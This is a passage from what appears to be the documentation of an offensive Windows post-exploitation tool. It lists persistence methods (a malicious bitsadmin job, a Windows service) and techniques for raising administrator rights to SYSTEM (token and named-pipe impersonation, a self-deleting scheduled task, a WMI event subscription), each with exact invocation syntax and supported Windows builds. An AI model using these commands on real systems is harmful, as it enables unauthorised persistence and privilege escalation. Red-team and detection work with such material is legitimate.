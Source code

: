   * Syntax for removing: `main.py --use persist --id 10 --payload c:\\windows\\system32\\cmd.exe --remove`
  * Requires: n/a
  * Works from: 14393
  * Fixed in: n/a
* Persistence using bitsadmin.exe
  * Id: 11
  * Method: Malicious bitsadmin job
  * Syntax: `main.py --use persist --id 11 --payload c:\\windows\\system32\\cmd.exe`
  * Syntax for removing: `main.py --use persist --id 11 --payload c:\\windows\\system32\\cmd.exe --remove`
  * Requires: Administrator rights
  * Works from: 7600
  * Fixed in: n/a
* Persistence using Windows Service \(SYSTEM privileges\)
  * Id: 12
  * Method: Malicious Windows Service
  * Syntax: `main.py --use persist --id 12 --payload c:\\windows\\system32\\cmd.exe`
  * Syntax for removing: `main.py --use persist --id 12 --payload c:\\windows\\system32\\cmd.exe --remove`
  * Requires: Administrator rights
  * Works from: 7600
  * Fixed in: n/a

### Elevation techniques

Functions \(Expand/Collapse\)

* Elevate from administrator to NT AUTHORITY SYSTEM using handle inheritance
  * Id: 1
  * Method: Handle inheritance
  * Syntax: `main.py --use elevate --id 1 --payload c:\\windows\\system32\\cmd.exe`
  * Requires: Administrator rights
  * Works from: 7600
  * Fixed in: n/a
* Elevate from administrator to NT AUTHORITY SYSTEM using token impersonation
  * Id: 2
  * Method: Token impersonation
  * Syntax: `main.py --use elevate --id 2 --payload c:\\windows\\system32\\cmd.exe`
  * Requires: Administrator rights
  * Works from: 7600
  * Fixed in: n/a
* Elevate from administrator to NT AUTHORITY SYSTEM using named pipe impersonation
  * Id: 3
  * Method: Named pipe impersonation
  * Syntax: `main.py --use elevate --id 3 --payload c:\\windows\\system32\\cmd.exe`
  * Requires: Administrator rights
  * Works from: 7600
  * Fixed in: n/a
* Elevate from administrator to NT AUTHORITY SYSTEM using schtasks.exe \(non interactive\)
  * Id: 4
  * Method: Malicious scheduled task that gets deleted once used
  * Syntax: `main.py --use elevate --id 4 --payload c:\\windows\\system32\\cmd.exe`
  * Requires: Administrator rights
  * Works from: 7600
  * Fixed in: n/a
* Elevate from administrator to NT AUTHORITY SYSTEM using wmic.exe \(non interactive\)
  * Id: 5
  * Method: Malicious mof file using EventFilter EventConsumer and binding that gets deleted once used
  * Syntax: `main.py --use elevate --id 5 --payload c:\\windows\\system32\\cmd.exe`
  * Requires: Administrator rights
  * Works from: 7600
  * Fixed in: n/a